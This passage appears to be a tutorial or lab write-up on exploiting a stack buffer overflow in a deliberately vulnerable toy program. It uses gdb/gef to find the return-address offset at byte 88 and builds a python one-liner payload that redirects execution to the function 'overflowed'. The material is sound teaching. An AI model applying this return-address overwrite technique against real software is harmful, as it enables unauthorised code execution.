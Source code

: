 ```bash
→ 0x401187 <function+31> nop
  0x401188 <function+32> leave
  0x401189 <function+33> ret
```

The first si will execute nop which is a no operation instruction, it does nothing. The leave instruction resets the rsp to the base pointer in rbp and then pops rbp. After the leave instruction, rsp contains the return address the program will try and jump to on executing the ret.

However, the rsp now contains an address that points to the string "laaaaaaamaaaaaaanaaaaaaaoaaaaaaa". If we search for the offset of this string, we find out that it is located at byte 88.

```bash
gef➤ pattern offset laaaaaaamaaaaaaanaaaaaaaoaaaaaaa
[+] Searching 'laaaaaaamaaaaaaanaaaaaaaoaaaaaaa'
[+] Found at offset 88 (big-endian search)
gef➤
```

Doing another si will cause the program to crash with a SIGSEGV, a segmentation fault.

The good news is that we are able to control the return address simply by adding the address we want the program to jump to by adding that address at offset 88 in the input. What we want to do is to jump to the address of the function overflowed. If we type disassemble overflowed, this will show the assembly for the function with the addresses of each instruction.

```bash
gef➤ disassemble overflowed
Dump of assembler code for function overflowed:
 0x0000000000401142 <+0>: push rbp
 0x0000000000401143 <+1>: mov rbp,rsp
 0x0000000000401146 <+4>: lea rdi,[rip+0xeb7] # 0x402004
 0x000000000040114d <+11>: call 0x401040 <puts@plt>
 0x0000000000401152 <+16>: mov edi,0x0
 0x0000000000401157 <+21>: call 0x401050 <exit@plt>
End of assembler dump.
gef➤
```

The first instruction is at the address 0x401142 (ignoring the leading zeros). So we can construct an input string of 88 'A's and then the address \x42\x11\x40. The address is in reverse order because the machine is "little endian" which means that addresses are listed with their least significant bytes first. The input can be generated using the command:

```bash
r $(python -c "print(('A'*88) + '\x42\x11\x40')")
```

We can now repeat the process of stepping through the instructions until the strcpy. This time, after single stepping over the leave instruction, rsp is pointing to the function overflowed

```bash
0x00007fffffffded8│+0x0000: 0x0000000000401142 → <overflowed+0> push rbp ← $rsp
```

Doing another si will start the execution of overflowed.

